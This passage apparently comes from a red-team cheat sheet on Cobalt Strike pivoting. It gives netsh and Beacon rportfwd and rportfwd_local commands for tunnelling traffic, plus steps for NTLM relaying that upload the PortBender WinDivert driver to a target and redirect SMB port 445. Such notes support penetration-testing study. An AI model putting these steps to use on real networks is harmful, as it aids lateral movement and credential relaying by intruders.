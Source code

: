 **Remove port forward netsh**

```
netsh interface portproxy delete v4tov4 listenaddress=<IP> listenport=<PORT>
```

**Create port forward rportfwd**

* Beacon's reverse port forward always tunnels the traffic to the Team Server and the Team Server sends the traffic to its intended destination, so shouldn't be used to relay traffic between individual machines.
* Does not require administrator privs

```
rportfwd <PORT> <IP> <PORT>
```

**Stop port forward rportfwd**

```
rportfwd stop <PORT>
```

**Create port forward rportfwd\_local**

* Beacon also has a rportfwd\_local command. Whereas rportfwd will tunnel traffic to the Team Server, rportfwd\_local will tunnel the traffic to the machine running the Cobalt Strike client.
* Does not require administrator privs
* If 127.0.0.1 doesn't work use teamserver IP

```
rportfwd_local <PORT> <IP> <PORT>
```

**Stop port forward local**

```
rportfwd_local stop <PORT>
```

#### NTLMRelaying with cobalt strike

* [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)
* Requires administrator privs

**Place portbender driver on the target**

```
cd C:\Windows\system32\drivers
upload C:\Tools\PortBender\WinDivert64.sys
```

**Load portbender.cna**

* Load PortBender.cna from C:\Tools\PortBender this adds a new PortBender command to the console.

```
help PortBender
PortBender redirect 445 8445
```

**Create port forward**

